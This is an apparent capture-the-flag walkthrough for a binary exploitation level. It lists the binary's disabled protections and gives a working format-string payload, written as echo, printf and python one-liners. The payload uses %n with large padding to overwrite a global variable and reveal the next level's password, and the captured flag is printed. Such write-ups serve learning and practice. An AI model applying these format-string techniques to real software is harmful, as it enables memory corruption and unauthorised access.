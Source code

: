 # level4

## Header

```bash
ssh level4@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

<hr>

## Solution

The main principle is the same as in the [level3](./../level3/walkthrough.md), but `m` here should be equal to `0x1025544` (`16930116` in decimal), so we just need to make a huge padding... 

As the program will call `system("/bin/cat /home/user/level5/.pass")`, we don't need to keep stdin opened, and that makes solution even more simple:

```bash
echo -n $'\x10\x98\x04\x08%16930112c%12$n' | ./level4
# or
printf '\x10\x98\x04\x08%%16930112c%%12$n' | ./level4
# or
python -c 'print "\x10\x98\x04\x08%16930112c%12$n"' | ./level4

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

## References
- [OWASP - format string attack](https://owasp.org/www-community/attacks/Format_string_attack)